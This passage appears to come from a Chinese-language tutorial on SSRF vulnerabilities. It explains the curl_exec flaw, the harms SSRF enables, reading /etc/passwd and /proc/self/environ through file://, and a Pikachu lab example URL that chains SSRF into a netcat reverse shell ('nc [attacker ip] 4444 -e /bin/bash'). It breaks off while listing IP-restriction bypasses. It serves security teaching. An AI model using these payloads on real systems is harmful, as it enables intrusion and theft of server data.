 漏洞的产生正是将 GET 参数 url 直接传递给 curl_exec 去访问，并调用 echo 将请求结果输出到页面，这正是设置"url=http://baidu.com"后，会打开百度的原因。

### SSRF 的危害

基于前面介绍的 SSRF 原理，我们可以梳理出它可能出现的一些危害。

* **内网探测**：对内网服务器、办公机进行端口扫描、资产扫描、漏洞扫描。

* **窃取本地和内网敏感数据**：访问和下载内网的敏感数据，利用 File 协议访问服务器本地文件。

* **攻击服务器本地或内网应用**：利用发现的漏洞进一步发起攻击利用。

* **跳板攻击**：借助存在 SSRF 漏洞的服务器对内或对外发起攻击，以隐藏自己真实 IP。

* **绕过安全防御**：比如防火墙、CDN（内容分发网络，比如加速乐、百度云加速、安全宝等等）防御。

* **拒绝服务攻击**：请求超大文件，保持链接 Keep-Alive Always。

你可以自己发挥脑洞去挖掘更多的可能的攻击场景，欢迎在留言区留言、讨论。

### 常见的利用与限制绕过方法

说了这么多，那我们来看一下 SSRF 漏洞常见的利用方法和绕过限制的手段。

#### 1.利用支持的 URL Schema 发起请求伪造

不仅仅只是常见的 http/https 协议，OWASP 曾整理过一份相对比较完整的 URL Schema，这里我发出来供你参考一下：

![图片4.png](https://s0.lgstatic.com/i/image/M00/8D/9D/CgqCHmAADh6AFbrRAAIMts5NwrM049.png)  
图 4：常用于 SSRF 的 URL Scheme

在利用初期，你可以尝试下目标支持哪些 URL Schema，但有一点需要提醒下：**有些应用会自定义一些 URL Schema，如果它支持本地或网络地址请求，要注意避免遗漏掉**。

#### 2.读取本地文件

从图 4 可以看到，除了 http/https 协议外，File 也是各场景通用的伪协议，利用它我们可以读取服务器的本地文件，比如 /etc/passwd、/proc/self/environ......

![Drawing 4.png](https://s0.lgstatic.com/i/image/M00/8D/8C/Ciqc1F___JyAXxb8AAFuJktUmQY503.png)  
图 5：利用 SSRF 读取服务器本地文件

#### 3.攻击内网应用漏洞

前期可以利用 SSRF 漏洞对内网存活 IP 或域名进行漏洞扫描。以前在公司就曾遇到过这样一种情况：有些业务为了测试，在内网搭建了一些存在漏洞；或是有漏洞没有及时修复，理由是在内网没影响。然后，有一些被外部 SSRF 漏洞打进来了，利用了 Struts2 漏洞控制了内网服务器。

比如内网有一台存在代码执行漏洞（http://192.168.x.x/vul.php?cmd=whoami）的服务器未开外网，那么攻击者就可以利用 SSRF 漏洞来攻击该内网服务器。以 Pikachu 靶场 SSRF（curl）题目为例，可以构造如下链接来获取内网服务器的 shell 控制权限：

```java
http://localhost:8080/vul/ssrf/ssrf_curl.php?url=http://192.168.x.x/vul.php?cmd=nc [攻击者 ip] 4444 --e /bin/bash;
```

#### 4.绕过 IP 限制

有些网站可能会限制访问 IP，此时就可以尝试使用以下方法绕过：

* **IPv6 地址**，如 http://2000::1:2345:6789:abcd；
